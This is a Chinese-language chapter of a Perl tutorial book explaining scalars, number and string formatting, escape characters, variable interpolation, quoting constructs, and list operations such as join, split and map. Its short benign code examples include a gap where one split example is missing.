要在十六进制和十进制之间转换，只需使用 **sprintf** 和 **hex** 函数，具体如下。

### 十进制转十六进制

要将十进制数转换为由字符串表示的十六进制数，请使用Perl的 **sprintf** 函数（有关 **sprintf** 的更多信息，请参见第11章），并使用 **%x** 转换说明符：

```
print sprintf "%1x", 16;
```

*10*

### 十六进制转十进制

要将数字从十六进制转换为十进制，请像这样使用 **hex** 函数：

```
print hex 0x1AB;
```

*1063*

如果未向 **hex** 函数传递值，它将使用默认变量 **$_**。

| 相关解决方案： | 所在页： |
|---|---|
| **sprintf** 格式化字符串 | 493 |

## 为标量设置默认值

如果标量尚未被赋予任何值，你可以为其设置一个*默认值*。这个功能可能很有用，例如，当你编写的代码将被其他程序员用于他们自己的程序中，并且你的代码要求某个变量必须有一个值，但你又不想覆盖它已有的值时。

这里的技巧依赖于未初始化的标量被设置为 **undef** 值的事实，你可以使用 **defined** 函数来测试它。这段代码使用条件运算符 **?:** 为变量 **$variable** 设置一个默认值，该默认值存储在名为 **$defaultvalue** 的变量（或常量）中，**仅当** **$variable** 尚未拥有一个值时：

```
$defaultvalue = 1;
$variable = defined($variable) ? $variable : $defaultvalue;
print $variable;
```

请注意，如果 **$variable** 尚不存在，此代码会创建它。


## 数字的四舍五入

客服部门的现场报告说，你们新开发的鸡蛋计数脚本很棒，客户非常满意。不过他们有一个问题：他们通常不需要把鸡蛋数量精确到八位小数。你能把这些数值进行四舍五入吗？

你可能会想到用 Perl 的 **int** 函数来对数字取整。这种方法在数鸡蛋时是有效的，但通常并不通用。**int** 函数只会截断数字的小数部分并返回整数部分，这意味着对于 1.99999 和 1.00001，它都会返回 1：

```
$x = 1.99999;
$y = 1.00001;
print join (", ", int($x), int($y));
```

1, 1

你可以做出更好的选择。要将一个数字四舍五入到特定的小数位数，请使用 **sprintf** 函数。（有关 **sprintf** 的更多信息，请参见第 11 章。）例如，要将一个数字四舍五入到两位小数，请使用格式说明符 "**%.2f**"。以下是如何将 3.1415926 四舍五入到两位小数并打印结果：

```
print sprintf "%.2f", 3.1415926;
```

*3.14*

像这样对数字进行四舍五入不仅仅是截断；它会在需要时向上进位。以下是如何将 3.1415926 四舍五入到四位小数，将最后的 5 进位为 6：

```
$variable1 = sprintf "%.4f", 3.1415926;
print $variable1;
```

*3.1416*

前面的两个例子展示了如何打印四舍五入后的值，所以你可能想知道如何对数字进行四舍五入并将其作为数值来处理。回想一下，Perl 是基于上下文来处理数据的。因此，如果你将一个标量当作数字来处理，Perl 也会这样做（如果可能的话）。此示例对一个数字进行四舍五入，并将其作为字符串存储在 **$variable1** 中：

```
$variable1 = sprintf "%.2f", 3.1415926;
```

接下来，你可以通过对其进行数值运算——具体来说，就是给它加上 .01——将 **$variable1** 中的值作为数字来处理：

```
$variable1 = sprintf "%.2f", 3.1415926;
$variable1 += .01;
```

现在你可以打印结果 3.15：

```
$variable1 = sprintf "%.2f", 3.1415926;
$variable1 += .01;
print $variable1;
```

*3.15*

那个例子涉及了本章中我们将看到的数值操作。由于本章是关于数据存储的，我在此只讨论了可用于数字的不同格式。当然，这个讨论只是皮毛，展示了 Perl 中可以对数字进行的操作。有关更多信息，请参见第 4 章关于 Perl 运算符以及第 11 章关于数据处理的部分。现在是时候转向字符串了。

| 相关解决方案： | 参见页码： |
| --- | --- |
| **sprintf** 格式字符串 | 493 |

## 在标量变量中使用字符串

你正在编写新的 Perl 文本编辑器，必须决定如何保存文本。如果你用 C 语言编写程序，你需要处理笨拙的字符数组。Perl 能做得更好吗？

当然可以。除了数字，标量变量也可以像这样保存字符串：

```
$variable1 = "Hello!";
```

Perl 会分配与字符串长度匹配的空间，所以理论上，它们可以变得非常大。Perl 现在在内部使用 Unicode 来存储其字符数据。以前它使用 ASCII，每个字符用一个字节表示，但现在它使用 Unicode，每个字符可以使用多个字节（因此 Unicode 字符也称为*宽字符*）。有关 Unicode 的更多信息，请参见 **www.unicode.org** 以及 Perl Unicode 文档页面（**perlunicode.html**，它是 Perl 文档的一部分）。

就 Perl 而言，字符串和数字的区别在于上下文。如果你在数值上下文中使用标量（你可以通过给标量加 0 来强制这种上下文），Perl 会将标量的值视为数字。如果你将标量视为字符串，Perl 也会这样做。例如，Perl 有两组比较运算符：一组用于将标量视为字符串时比较，另一组用于将标量视为数字时比较，我将在第 4 章中向你展示。

其他 Perl 运算符，如递增运算符 ++，对数字和字符串都有效（尽管现在 Perl 支持 Unicode，但请注意，就字符串而言，这种行为在未来可能会改变）：

```
$x = 100;
$y = "pens";
print join(", ", ++$x, ++$y);
```

101, pent

像 + 这样的运算符怎么样呢？你不能像在其他语言中那样，使用 + 运算符将两个字符串相加来连接（拼接）它们，像这样：

```
$variable1 = "Hello ";
$variable2 = "there\\n";
print $variable1 + $variable2;        #Does not concatenate!
```

相反，你可以使用 Perl 的连接运算符，它是一个点（.）：

```
$variable1 = "Hello ";
$variable2 = "there\\n";
print $variable1 . $variable2;
```

Hello there

如你所见，你需要了解很多关于字符串的知识，我们将在第 8 章中详细讨论它们。在本章中，我们更感兴趣的是作为标量变量的字符串。

你可以使用单引号或双引号创建字符串值作为标量变量：

```
$variable1 = "Hello.";
$variable2 = 'Hello again.';
```

这两种方法确实存在差异：Perl 会在字符串被双引号括起来时，对其中的变量和某些表达式进行求值。（更多细节请参见下一个主题。）用单引号将字符串括起来会使 Perl 不解释该字符串，而是将其视为字面量（即常量值）。

你也可以在字符串中使用表 2.2 中看到的转义字符。例如，要在文本中放置一个双引号，你可以使用转义字符 \"，如下所示：

```
print "I said, \"Hello\".";
```

> I said, "Hello".

目前，Perl 使用 UTF-8 编码以 Unicode 格式存储字符串中的字符。特别注意转义字符 \N，你可以用它来专门将命名的 Unicode 字符插入文本中；例如，**\N{WHITE SMILING FACE}** 会在你的文本中插入一个 Unicode “笑脸”。

同样值得注意的是，从 Perl v5.6.0 开始，形式为 v1.2.3.4 的字符串字面量（代表 Perl 版本）现在被解析为由给定数字组成的字符构成的字符串。你可以将这样的字符串与内置变量 $^V（即版本变量）一起使用。此变量以字符串形式保存当前版本，但不是像 "5.6.1" 这样的字符串；相反，$^V 等于 chr(5) . chr(6) . chr(1)（其中 chr 函数是标准 Perl 函数，返回与传入字符码对应的字符）。因为形式为 v5.6.1 的字符串字面量现在会自动采用正确的格式（事实上，如果你有至少三个由点分隔的数字，如 5.6.1，Perl 也会自动编码这些字符串），所以你可以直接将 $^V 与各种版本号（如 5.6.1）进行比较，如下所示：if($^V eq v5.6.1)。

### 表 2.2 转义字符。

| 转义字符 | 含义 |
| --- | --- |
| \' | 单引号 |
| \" | 双引号 |
| \033 | 八进制字符 |
| \a | 报警（响铃） |
| \b | 退格 |
| \c[ | 控制字符 |
| \e | 换码（转义） |
| \E | 结束 \L、\U 或 \Q |
| \f | 换页 |
| \l | 将下一个字符转为小写 |
| \L | 将之后的所有字符转为小写 |
| \n | 换行 |
| \N | 插入命名字符 |
| \Q | 为所有后续的非字母数字字符添加反斜杠 |
| \r | 回车 |
| \t | 制表符 |
| \u | 将下一个字符转为大写 |
| \U | 将之后的所有字符转为大写 |
| \x1b | 十六进制字符 |

## 它是字符串还是数字？

“是，是，”编程正确性协调员说，“我知道 Perl 根据上下文将标量视为数字或字符串，但这个特定的值实际上是如何存储的？”你解释 Perl 会自动在字符串或数字格式之间进行转换，但这毫无帮助。PCC 想知道一个特定的值。

事实上，有时 Perl 如何存储一个值——作为数字还是字符串——确实很重要，当你执行可以在任一数据格式类型上进行的操作时，例如按位**与**运算。（有关 **And** 等运算符的更多信息，请参见第 4 章。）

你可以使用 Perl 模块（如 **Devel::Peek**）来检查标量的内部格式（关于模块的更多信息在第 14 章），但有一个更简单的方法。你可以使用按位**与**和按位取反运算符来检查标量是否包含字符串（假设你检查的字符串不为空）：

```
$x = 111;
$y = "This is a string";
print '$x is in string format' if ($x & ~$x);
print '$y is in string format' if ($y & ~$y);

$y is in string format
```

这段代码依赖于这样一个事实：如果你对一个数字与其按位取反的结果进行**与**运算，结果将是 0，而将这些运算应用于字符串时则不然。

| 相关解决方案： | 参见页码： |
|---|---|
| 按位与运算：**&** | 162 |

## 字符串与数字之间的转换

在内部，Perl 使用 C 语言函数 **sprintf** 将数字转换为字符串。（有关 **sprintf** 的更多细节，请参阅第 11 章。）实际上，你可以通过 Perl 内置变量 **$#** 来更改所使用的 **sprintf** 格式，但使用该变量现已弃用。Perl 使用 C 语言函数 **atof** 进行反向转换，即将字符串转换为数字。

转换过程是自动的，取决于上下文，如本例所示，其中数字 **100** 在打印前被转换为字符串：

```
$x = 100;
print $x;
```

*100*

请注意，如果你想的话，也可以自己显式地使用 **sprintf** 和 **atof**。你可以轻松地强制将字符串转换为数字；标准方法就是给它加上 **0**，像这样：

```
$number = 0 + "100";
print $number;
```

*100*

当你这样给一个字符串值加上 **0** 时，Perl 会在内部将其转换为数字。实际上，字符串可以包含前导空格字符，例如 " 100"，但不能包含非数字值，如 "**y100**"。另请注意，此技术仅适用于十进制数字的字符串表示形式。

实际上，一些 Perl 构造，例如特殊变量 **$!**（如果存在当前操作系统错误，它会保存该错误），可以在数字上下文中表现得像数字，否则表现得像字符串。（有关 Perl 特殊变量的更多细节，请参阅第 10 章。）本例将 **$!** 设置为值 1，并使用数字和字符串上下文同时显示该值和与该错误值关联的错误消息：

```
$! = 1;
print "$!\n";
print "Error number ", 0 + $! , " occurred.";
```

*Operation not permitted*
*Error number 1 occurred.*

| 相关解决方案： | 所在页码： |
| --- | --- |
| **$!** 当前 Perl 错误 | 423 |
| **sprintf** 格式字符串 | 493 |

## 使用变量插值

编程团队协调员又在审视你的代码。"像 **print "The value at " . $index . " is " . $value?** 这样的代码里所有这些点是什么？""只是 Perl 的连接运算符，"你说。"使用字符串插值，"PTC 说，"代码会更简洁。"

当你用双引号括起一个包含变量名的字符串时，Perl 会自动将存储在该变量中的值替换到字符串中。例如，如果你有一个名为 **$text** 的变量，其中保存着单词 **Hello**

```
$text = "Hello";
```

那么你可以在双引号中按名称使用该变量，Perl 会将该变量的内容——字符串 **"Hello"**——替换给该变量，如下所示：

```
$text = "Hello";
print "Perl says: $text!\n";
```

*Perl says: Hello!*

这个过程被称为*插值*。具体来说，Perl 将变量 **$text** 中的值插值到用双引号括起来的字符串中。

但是，如果你使用单引号，而不是双引号，Perl 将不会执行插值：

```
$text = "Hello";
print 'Perl says: $text!\n';
```

*Perl says: $text!\n*

因此，当你不想让 Perl 尝试评估你放在单引号中的表达式时，你可以使用单引号。

如果你想插值一个变量作为另一个单词的一部分，而不是单独的单词，该怎么办？例如，如果 **$text** 保存前缀 **"un"**，你想将其前置到单词 "**happy**" 之前，该怎么办？显然，你不能使用像 **$texthappy** 这样的表达式，这会导致 Perl 查找名为 **$texthappy** 的变量，而不是插值 **$text** 来创建单词 "**unhappy**"。相反，你可以使用 { 和 } 来分隔你想作为单词一部分插值的变量名，如下所示：

```
$text = "un";
print "Don't be ${text}happy.";
```

*Don't be unhappy.*

你也可以使用*反引号*（向后倾斜的单引号 `）来让 Perl 将命令传递给底层操作系统。例如，在 Unix 中，你可以这样执行 **uptime** 命令（显示主机计算机运行了多长时间——注意 MS-DOS 中没有对应的 uptime 命令）：

```
$uptime = `uptime`;
print $uptime;
```

*4:29pm up 18 days, 21:22, 13 users, load average: 0.30, 0.39, 0.42*

此过程在 MS-DOS 中的工作方式相同；MS-DOS 没有 **uptime** 命令，但你可以这样执行像 **dir** 这样的命令：

```
$dirlist = `dir`;
print $dirlist;
```

*Directory of C:\perlbook\temp*

```
.              <DIR>      10-07-99  4:02p .
..             <DIR>      10-07-99  4:02p ..
TEMP     PL          3,535 10-07-99  4:06p T.PL
```

程序员经常使用插值来连接字符串，如本例所示：

```
$a = "Hello";
$b = "there";
$c = "$a $b\n";
print $c;
```

*Hello there*

所以，总而言之，PTC 是对的。像这样的行

```
print "The value at " . $index . " is " . $value;
```

写成这样会稍微简洁一些，而且引号也更容易处理：

```
print "The value at $index is $value";
```

到目前为止，我已经介绍了如何在字符串中插值变量，但是更高级的插值，例如子程序的返回值呢？你能做到吗？看看下一个主题。

## 使用高级插值

你已经在程序中添加了变量插值，并且喜欢你所看到的。但是，访问变量并不是获取 Perl 字符串数据的唯一方式。例如，Perl 子程序也可以返回你可能想要打印的值。例如，Perl 内置的 **uc** 子程序会将你传递给它的字符串转换为大写。你能使用插值来显示这样一个子程序的返回值吗？

> **提示：** 这个主题有些高级，并且超出了当前材料的范围，这在讨论 Perl 时经常发生，因为它的所有部分都是如此交织在一起。如果你在这里遇到困难，请先查看关于子程序的第 7 章和关于引用的第 9 章，或者稍后回到这个主题；最终都会明白的。

是的，你可以。让我们考虑所有可能性。假设你想在字符串中插值一个通用子程序的结果；你可以使用连接运算符来做到这一点：

```
$string = $text1 . mysubroutine($data) . $text2;
```

另一方面，如果你有点狡猾，你可以设计你的子程序，使用上一个主题介绍的 **${}** 机制，使其返回值被插值到双引号字符串中。

例如，假设你想将名为 **getmessage** 的子程序的返回值插值到字符串中。你可以按照此处所示进行操作。注意，你必须使用子程序前缀解引用器 **&**，它是 Perl 子程序名称中的第一个（并且通常是可选的）字符。

```
print "${&getmessage}";
```

此示例将 **getmessage** 子程序返回的字符串作为变量名进行替换。这里的技巧是在子程序中设置变量的值并返回其名称：

```
print "${&getmessage}";
sub getmessage {
    $msg = "Hello!";
    return "msg"
};
```

现在 print "${&getmessage}" 做了我们想要的事情：

```
print "${&getmessage}";

sub getmessage {
    $msg = "Hello!";
    return "msg"
};
```

Hello!

这种方法相当复杂，并且只适用于你可以自己设计的子程序。你可以使用一种更通用的方法，通过使用对各种构造的引用来欺骗 Perl 评估子程序的返回值，这在我们介绍了第 9 章的引用之后会更有意义。以下是如何将标量函数（返回标量的函数）的返回值插值到双引号字符串中的方法：

```
$string = "text ${\(scalarfunction data)} text";
```

例如，如果你想使用大写函数 **uc** 来使你正在打印的字符变为大写（并且忘记了你可以用 **\u** 转义字符做同样的事情），你可以按照此处所示进行操作。注意，你必须转义内部的双引号；否则，Perl 在将整个字符串解析为单个字符串时会遇到问题。

```
print "${\(uc \"x\")}";
```

X

如果你有一个返回列表（而不是标量）的子程序，你可以使用匿名数组（同样，参见第 9 章）组合器，如下所示：

```
$string = "text @{[listfunction data]} text";
```

虽然这些技术有效，但事实是当你处理真实代码时，通常不会想费心回来查找它。通常，使用其他更简单的技术要容易得多，比如使用连接运算符，

将子程序的返回值拼接进字符串。至少，我的经验是这样的。在这种情况下，使用插值并没有真正的优势。

请注意，除了插值变量和子程序的返回值外，你还可以插值数组和哈希中的值。更多信息请参阅下一章（关于数组和哈希）。

## 处理引号和裸词

有时在 Perl 中，如果单词无法被解释为其他任何方式，那么其周围的引号是可选的。例如，以下代码显然是一个对变量 **$text** 的字符串赋值，因此你不需要引号：

```
$text = Hello;
```

当你打印 **$text** 的内容时，你会得到预期的结果：

```
$text = Hello;
print $text;
```

*Hello*

像这样不带引号的单单词文本字符串被称为 *裸词*。如果你需要使用多个单词，它就不再是裸词了，这将不起作用：

```
$text = Hello there!;     #No good
print $text;                #Doesn't work
```

在下一章中，我将向你展示如何使用哈希，它的工作方式与数组非常相似，只是你使用名为 *键* 的文本字符串而不是数字来索引它们：

```
$hash{"name"} = "George Washington";
print $hash{"name"};
```

*George Washington*

你可以像这样使用裸词作为哈希键（如果裸词只有一个单词长；否则，你需要引号）：

```
$hash{name} = "George Washington";
print $hash{name};
```

*George Washington*

在某些情况下，裸词可能会与标签或文件句柄混淆，这两者都不需要像 $$ 这样的前缀解引用符。在这种情况下，你可以像这样关闭 Perl 对裸词的容忍，这将导致 Perl 对任何无法解释为子程序名的裸词发出警告：

```
use strict 'subs';
```

> **提示：** 尽管它们与当前材料没有直接关系，但 Perl 中还有另外两个 **use strict** 语句可用：**use strict 'refs'** 在你使用符号引用（参见第 9 章）时会创建一个运行时错误，而 **use strict 'vars'** 在你访问一个未通过 **use vars** 声明、未通过 **my()** 定位或未完全限定的变量时会创建一个编译时错误（参见第 7 章）。有关 **strict** 模块的更多信息，请参见第 14 章。

除了跳过引号外，你还可以使用 Perl 自动添加引号，使用如表 2.3 所示的构造。

例如，如果你想打印字符串 **I said, "Hello"**，你可以使用转义字符这样做：

```
print "I said, \"Hello\".";
```

*I said, "Hello".*

为了避免太多的转义字符（在 Perl 中昵称为 LTS——*leaning toothpick syndrome*），你可以使用 **qq//** 构造来处理字符串中的双引号：

```
print qq/I said, "Hello"./;
```

*I said, "Hello".*

这里，**qq** 构造自动转义了包含在 / 和 / 之间的字符串中的双引号。

**表 2.3 引号构造。**

| 构造 | 结果为 | 插值？ | 代表 |
| --- | --- | --- | --- |
| **q//** | '' | 否 | 字面量 |
| **qq//** | "" | 是 | 字面量 |
| **qx//** | `` | 是 | 命令 |
| **qw//** | () | 否 | 单词列表 |
| **//** | **m//** | 是 | 模式匹配 |
| **s///** | **s///** | 是 | 替换 |
| **y///** | **tr///** | 否 | 转换 |

实际上，你不需要使用 **//** 来包含字符串。相反，你可以使用几乎任何字符（只要你在字符串的开头和结尾使用相同的字符），就像这个例子一样，我使用 | 和 | 与 **qq** 一起使用：

```
print qq|I said, "Hello".|;
```

*I said, "Hello".*

你甚至可以使用括号，通常用于包含传递给子程序的参数：

```
print qq(I said, "Hello".);
```

*I said, "Hello".*

在这种情况下，括号充当 **qq** 的定界符，而不是包含子程序的参数。（实际上，在 Perl 中——做事有不止一种方式——如果你这样做不会与同一语句中的其他术语造成混淆，你甚至可以在子程序调用中省略括号。）

你经常会看到 **qq** 用于引用传递给 **eval** 的代码，如下所示：

```
$statement = qq/print "Hello.";/;
eval $statement;
```

*Hello.*

如果你不想使用双引号，请使用 **q** 构造代替 **qq**，因为 **q** 构造使用单引号：

```
$statement = q/print "Hello.";/;
eval $statement;
```

*Hello.*

**qw** 构造也非常流行，你经常会遇到它。你向这个构造传递单词，它会以单引号的形式返回这些单词的列表。在这个例子中，我使用了本章最开始介绍的那种列表赋值：

```
($first, $second, $third, $fourth) = qw/This is a test/;
print $fourth;
```

*test*

在这种情况下，**qw/This is a test/** 返回列表 (**This, is, a, test**)，列表赋值将这些带引号的单词按顺序赋给 **$first**、**$second**、**$third** 和 **$fourth**。因此，**$fourth** 保存的是 **test**，正如你在前面的例子中看到的那样。**qw** 构造在你想要一个带引号的单词列表（例如初始化数组，我们将在下一章看到）时是一个不错的选择。

要记住一点：你传递给 **qw** 的所有单词都被视为裸词（在 Perl 术语中，**qw** 按空格分割），所以不要使用逗号来分隔这些单词，因为 **qw** 会将逗号视为单词的一部分，就像这个例子：

```
($first, $second, $third, $fourth) = qw/This, is, a, test/;
print $first;
```

*This,*

你还可以使用 **quotemeta** 函数在每个非字母数字字符前添加一个反斜杠。在这个例子中，以下代码产生相同的字符串：

```
$text = "I\\ said\\ \"Hello\\.\"";
$text = quotemeta('I said "Hello."');
```

我们将在第 6 章处理正则表达式时更多地了解 **quotemeta**。

现在我们已经完成了本章对标量的讨论，是时候转向列表了。

## 什么是列表？

现在你已经是一名 Perl 专业人士了，技术支持将一些代码发给你检查。一切进展顺利，直到你遇到这一行：

```
($name, $id, $unit) = (Sam, 1332, Sales);
```

这到底是怎么回事？你打电话给技术支持报告代码中的错误。“这不是错误，”工作人员说。“这是一个列表赋值。”这到底是怎么回事？

Perl 允许你将标量变量（以及其他类型如哈希和数组）组装成 *列表*。列表代表一组你可以作为一个整体处理的项目。列表在 Perl 中非常重要，事实上，Perl 的内置函数分为两组：那些可以处理标量的和那些可以处理列表的（尽管有些函数两者都能处理）。

Perl 没有任何特定的列表数据类型，因为使用列表实际上是一种代码技巧，列表不代表一种数据存储格式。但是，Perl 确实有一个列表运算符，它是一对括号，你可以通过在括号内使用逗号分隔元素来创建列表。例如，表达式 **(1, 2, 3)** 返回一个包含三个元素的列表：1、2 和 3。

**print** 运算符是一个列表运算符。如果你传递一个列表给它，它会将列表中的元素连接成一个字符串。（我们将在本章后面看到如何在 **print** 显示的元素之间添加空格或逗号。）例如，如果你传递 **(1, 2, 3)** 列表，那么 **print** 将显示 **123**，如下所示：

```
print (1, 2, 3);
```

*123*

实际上，你甚至可以省略括号（在这种情况下，Perl 实际上将 **print** 视为一个列表*运算符*，而不是一个函数）：

```
print 1, 2, 3;
```

*123*

如果你愿意，你也可以在最后一个列表元素后添加一个逗号，如这里所示，这使得将来添加元素变得容易。（你经常会看到这样的逗号在 Perl 代码中，我在这里提及它，这样你就不用去想这是怎么回事了。）

```
print (1, 2, 3,);
```

*123*

还有其他几个 Perl 函数是列表函数，比如 **chop**、**map** 等等，我们将在全书中看到。你也可以使用空列表：**()**。

所以这就是你如何创建列表，使用括号和逗号（尽管正如我们刚刚看到的，在某些情况下括号是可选的）。如果你有列表嵌套在列表中会发生什么？看：

```
print ((1, 2, 3), 4, 5, (6, 7), 8, 9);
```

*123456789*

正如你所看到的，嵌套在列表中的任何列表的元素都只是按顺序添加到整个列表中。Perl 将这个过程称为*展平*列表。当我们考虑将列表构造（如数组）传递给子程序时，这一点将变得很重要。


## 通过索引引用列表元素

你现在对列表了如指掌——它们如何工作、有什么功能——并且理解列表代表作为整体的多个元素。但是，你能引用列表中的某个特定元素吗？如果一个列表函数返回 400 个项目的列表，而你只想处理第 133 个项目怎么办？你能从列表中挑选出那个项目吗？

是的，你可以。创建列表后，你可以使用方括号 `[]`（你可以将其视为列表索引运算符）来引用该列表中的单个元素。例如，如果你有一个由字母 a、b 和 c 组成的列表（你不需要用引号括起来，因为 Perl 会将它们解释为裸词），你可以这样引用元素 1（即 b，列表从 0 开始计数）：

```
$variable1 = (a, b, c)[1];
```

当你打印这个变量时，你会得到预期的结果：

```
$variable1 = (a, b, c)[1];
print $variable1;
```

b

请注意，你也可以使用 `[` 和 `]` 索引函数返回的列表，这提供了一种简单的方法来处理只需要标量返回值而非列表的列表函数。经典例子是 **stat** 函数（更多细节请参见第 13 章），它以列表格式返回有关文件的信息。以下是 **stat** 返回的列表元素（其中一些元素仅在 Unix 中有意义）：

- 元素 0：**dev**——文件系统的设备号
- 元素 1：**ino**——索引节点号
- 元素 2：**mode**——文件模式（包括类型和权限）
- 元素 3：**nlink**——指向文件的硬链接数
- 元素 4：**uid**——文件所有者的数字用户 ID
- 元素 5：**gid**——文件所有者的数字组 ID
- 元素 6：**rdev**——设备标识符
- 元素 7：**size**——文件的总大小（字节）
- 元素 8：**atime**——自纪元以来的最后访问时间
- 元素 9：**mtime**——自纪元以来的最后修改时间
- 元素 10：**ctime**——自纪元以来的索引节点变更时间
- 元素 11：**blksize**——文件系统 I/O 的首选块大小
- 元素 12：**blocks**——分配的实际块数

你可以索引这个列表中的项目。例如，如果你编写一个脚本 `size.pl` 来显示 `size.pl` 的大小，你可以这样从 **stat** 列表中选取文件大小：

```
$size = (stat("size.pl"))[7];
print "File size is $size";
```

File size is 62

下面的示例展示了如何使用 Perl 的 **rand** 函数获取一个随机字母，该函数返回一个不超过你传递给它的值的随机数：

```
$letter = ("a" .. "z")[rand(25)];
print $letter;
```

k

你还应该知道，如果列表元素的序列是 Perl 已经理解的，你可以使用快捷方式来创建列表；你可以使用 `..` 表示法。例如，这里是创建所有小写字母列表并打印它们的方法：

```
print ("a" .. "z");
```

abcdefghijklmnopqrstuvwxyz

`..` 快捷方式在 Perl 编程中非常有用，你会经常遇到；例如，请看下一个主题。

> 提示：同时请记住，`qw` 构造会返回你传递给它的单词列表。

## 将列表赋值给其他列表

你可以使用赋值运算符 `=` 将一个列表赋值给另一个列表。例如，你可以将列表 `($c, $d)` 中的元素分别赋值给列表 `($a, $b)` 中的相应元素，如下所示：

```
($a, $b) = ($c, $d);
```

通过这种方式，你可以将列表视为可赋值的实体和左值。两个列表甚至可以包含部分或全部相同的变量。在这种情况下，我们使用列表赋值而不使用临时变量来交换两个变量 `$a` 和 `$b` 的内容：

```
($a, $b) = ($b, $a);
```

你相互赋值的列表甚至可以大小不同，如本例所示，其中 `$a` 和 `$b` 分别接收较长列表的前两个元素：

```
($a, $b) = (1, 2, 3);
print $a;
```

```
1
```

```
print $b;
```

```
2
```

另一方面，如果你将一个列表赋值给一个标量，你只会得到列表的最后一个元素：

```
$a = (2, 4, 6);
print $a;
```

```
6
```

当你在代码中处理列表时，你是在 *列表上下文* 中工作。正如我们将在下一章中看到的，你可以通过在列表中传递来创建一个数组（它具有前缀解引用器 `@`），因为数组了解列表上下文：

```
@a = (2, 4, 6);
print @a;
```

```
246
```

事实上，数组非常了解列表上下文，以至于当你将其赋值给标量时，你实际上得到的是数组中的元素数量（而不是像你可能预期的普通列表那样，得到数组的最后一个元素）：

```
@a = (2, 4, 6);
$a = @a;
print $a;
```

```
3
```

也请看看反向过程，我们尝试像这样将标量赋值给列表：

```
($a, $b, $c) = 1;
```

在这种情况下，只有 **$a** 得到一个值（**$a** 将等于 **1**），而其他两个变量根本不会被赋值。（如果它们以前没有被使用过，它们将被设置为 **undef**。）

## 将列表连接成字符串

你有点厌倦了 **print** 函数将传递给它的列表中的所有项目连接起来。例如，**print** ("Now", "is", "the", "time") 显示 **Nowisthetime**，这在客户的屏幕上出现时看起来有点不专业。你能以一种有意义的方式将列表格式化成字符串吗？

是的，你可以。要将列表的元素连接成一个字符串，你可以使用 Perl 的 **join** 函数，其一般工作方式如下：

```
join EXPR, LIST
```

此函数用 ***EXPR*** 中的值包围 ***LIST*** 中的字符串，并将它们连接成一个字符串，返回结果字符串。例如，这是处理列表 `("Now", "is", "the", "time")` 的一种稍好方法，通过用空格分隔元素：

```
print join(" ", ("Now", "is", "the", "time"));
```

```
Now is the time
```

```
print join(", ", ("Nancy", "Claire", "Linda", "Sara"));
```

*Nancy, Claire, Linda, Sara*

下面的示例还展示了如何通过字段间的冒号连接列表 `("12", "00", "00")` 中的元素以创建字符串 `12:00:00`。（在这个列表中，你不需要在字符串周围使用双引号，但如果你将那些字符串视为裸词，Perl 会尝试将 **00** 解释为数字并抑制前导 0，这会给你 `12:0:0`）：

```
print join (":", "12", "00", "00");
```

*12:00:00*

当然，连接列表元素时不需要指定任何字符，就像本例中，我将空字符串 `""` 传递给 join 以连接 **H, e, l, l, o**，其输出结果与 **print** 的显示完全一样：

```
print join ("", H, e, l, l, o);
```

*Hello*

请注意，你也可以做 join 的反向操作——你可以将字符串分割成列表。要了解如何操作，请参见下一个主题。

> **提示：** 你也可以使用更高级的方式将项目连接成字符串。你可以使用 **pack** 将它们连接成字符串中的固定长度字段。详见第 8 章。

## 将字符串分割成列表

“好吧，”你说，“如果我需要将列表连接成字符串，我可以使用 **join**。但是，这不是我的问题。我需要将字符串 “**Now is the time**” 分割成列表。现在怎么办？”

你可以使用 Perl 的内置函数 **split** 将字符串分割成列表：

```
split /PATTERN/, EXPR, LIMIT
split /PATTERN/, EXPR
split /PATTERN/
split
```

这里，**split** 函数在字符串 *EXPR* 中每个出现的字符串 *PATTERN* 处进行分割。如果你没有指定 *EXPR*，**split** 在 `$_` 上操作；如果你省略 *PATTERN*，此函数在空白字符处分割字符串。如果你指定了 *LIMIT*（如果指定，它必须是一个正数），此函数将字符串分割成不超过该数量的项目。

下面的示例展示了如何在逗号处分割字符串 “**H,e,l,l,o**”，创建一个列表，然后使用 **print** 打印该列表：

```
print split ",", "H,e,l,l,o";
```

*Hello*

与在 Perl 中使用分隔符的其他情况一样，你不必使用双引号来指定要分割的表达式；例如，你可以像这样使用斜杠：

```
print split /,/, "H,e,l,l,o";
```

*Hello*

你当然也可以在其他字符上分割，例如空格，这非常常见。这里，我从 **split** 返回的列表中提取一个单词：

```
print ((split " ", "Now is the time")[3]);
```

*time*

> *提示：* 当你只是在空白处分割字符串时，**qw** 构造也能很好地完成这项工作。

下一个示例展示了 **split** 如何默认使用 `$_`。在这种情况下，我遍历用户每行输入的所有单词，使用正则表达式 */^\w{4}$/* 搜索四个字母的单词。（正如我们将在第 6 章中看到的，更高级的正则表达式完全可以处理这个任务，而完全不需要使用 **split**。）

因为那些数组的所有元素都将被展平成一个长列表，将它们各自的身份合并到该列表中（这是一个我们将在第 9 章使用 Perl 引用来解决的问题）。


此处，**split** 将输入的字符串拆分成单词，而 **for** 循环遍历 **split** 生成的列表中的每个单词。

| 相关解决方案： | 所在页码： |
| --- | --- |
| 使用 **for** 循环进行遍历 | 194 |

## 使用 **map** 对列表中的每个元素进行操作

现在你已经得到了一个包含 400 个文本项的列表，想要将每个项应用小写函数 **lc**。该怎么做呢？毕竟 **lc** 是一个标量函数，不是为列表设计的。你能轻松地对列表中的每个元素执行相同的操作吗？

是的，可以。你可以使用 **map** 函数，其一般用法如下：

```
map BLOCK LIST
map EXPR, LIST
```

此函数对 ***LIST*** 的每个元素计算 ***BLOCK*** 或 ***EXPR***（依次将 **$_** 设置为每个元素）。它返回每次计算结果的列表。注意，**map** 在列表上下文中计算 ***BLOCK*** 或 ***EXPR***，因此 ***LIST*** 的每个元素可以在返回的列表中产生一个或多个元素（包括零个元素）。

此函数在处理列表时非常方便。例如，你可以将 **lc** 映射到列表中的每个项，如下所示：

```
print join(", ", (map lc, A, B, C));
```

```
a, b, c
```

下一个示例展示了如何将 **chr** 函数（返回与字符代码对应的字母）映射到字符代码列表：

```
print join(", ", (map chr, 65, 66, 67));
```

A, B, C

如果你想执行更复杂的操作——例如，将每个元素乘以 2 呢？你可以使用 $_ 引用当前元素，并可以将复杂表达式用 { 和 } 括起来（注意：花括号，不是圆括号）：

```
print join(", ", (map {2 * $_} 1, 2, 3));
```

2, 4, 6

你也可以像这样返回字符串列表：

```
print (map "The current number is: $_\n", (1, 2, 3));
```

The current number is: 1
The current number is: 2
The current number is: 3

你甚至可以包含多语句表达式。此示例使用 my 关键字创建当前值的本地副本 $value，然后递增 $value，从而使 $_ 保持不变：

```
print join(", ", (map {my $value = $_; $value += 1} 1, 2, 3));
```

2, 3, 4

